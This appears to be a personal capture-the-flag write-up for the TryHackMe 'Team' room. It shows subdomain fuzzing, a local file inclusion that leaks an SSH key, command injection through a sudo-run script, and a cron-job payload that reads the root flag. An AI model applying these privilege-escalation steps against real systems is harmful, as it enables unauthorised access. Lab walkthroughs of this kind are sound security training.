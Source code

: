 #dns #bash-injection

https://tryhackme.com/r/room/teamcw

---
#### Nmap
![[Screenshot_2024-06-11_10-49-51.png]]

I had to setup the `/etc/hosts` with the `team.thm` domain

![[Screenshot_2024-06-11_11-45-32.png]]

The `robots.txt` gave me `dale` 

Merci Alessio,
```shell
ffuf -u 'http://team.thm' -H 'Host:FUZZ.team.thm' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1  
million-20000.txt -fs 11366
```

So I can get the development page on 
```shell
curl http://team.thm -H "Host: dev.team.thm"
```

I created a bash script to crawl in LFI and get all the available file contents. With that I used grep to find some clues and I got an private key ssh in `/etc/ssh/sshd_config` with no password

I can connect on `dale` through ssh now

There is another user named `gyles` and I can sudo run as him the `/home/gyles/admin_checks` with
```shell
sudo -u gyles /home/gyles/admin_checks
```

Now I need to find a way to insert a payload in this `admin_checks`:
```shell
#!/bin/bash  
  
printf "Reading stats.\n"  
sleep 1  
printf "Reading stats..\n"  
sleep 1  
read -p "Enter name of person backing up the data: " name  
echo $name  >> /var/stats/stats.txt  
read -p "Enter 'date' to timestamp the file: " error  
printf "The Date is "  
$error 2>/dev/null  
  
date_save=$(date "+%F-%H-%M")  
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak  
  
printf "Stats have been backed up\n"
```

The payload were on the `error` variable and it was `/bin/bash`. It was possible because `error` is directly printed. It gave me a shell for the user `gyles` who can access the `/opt/admin_stuff` directory containing a `script.sh` running as sudo every minutes:
```shell
#!/bin/bash  
#I have set a cronjob to run this script every minute  
  
  
dev_site="/usr/local/sbin/dev_backup.sh"  
main_site="/usr/local/bin/main_backup.sh"  
#Back ups the sites locally  
$main_site  
$dev_site
```

`gyles` is in the `admin` group and this group can write on `main_backup.sh` so I put the following payload in it
```shell
cat /root/root.txt > /tmp/root
```

And here is the root flag
